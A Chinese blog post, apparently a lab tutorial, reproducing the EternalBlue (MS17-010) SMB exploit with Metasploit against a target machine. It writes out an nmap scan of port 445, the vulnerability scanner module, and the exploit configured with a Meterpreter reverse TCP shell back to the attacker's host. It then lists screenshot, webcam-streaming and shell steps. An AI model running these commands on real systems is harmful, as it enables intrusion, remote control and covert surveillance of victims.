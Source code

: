 ```yaml
---
title: MSF永恒之蓝漏洞复现
tags: 
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26
---
```


永恒之蓝是指2017年5月12日起，全球范围内爆发的基于Windows网络共享协议进行攻击传播的蠕虫恶意代码，不法分子通过改造之前泄露的NSA黑客武器库中“永恒之蓝”攻击程序发起的网络攻击事件。

因为永恒之蓝攻击的是445端口, 扫描局域网中所有开放的445端口

```sh
nmap -sS -p 445 192.168.1.1-245
```

打开MSF, 加载扫描模块, 扫描靶机是否存在该漏洞
```sh
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.0.130       (靶机的IP)
exploit
```

加载攻击模块,并配置参数
```sh
use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 192.168.0.130 (靶机的IP)

set lhost 192.168.0.129 (发起攻击的主机IP)

set lport 443       (监听的端口)

exploit
```

功能展现

1.捕捉桌面：
meterpreter >screenshot

2.视屏开启
meterpreter > webcam_stream

3.获取shell





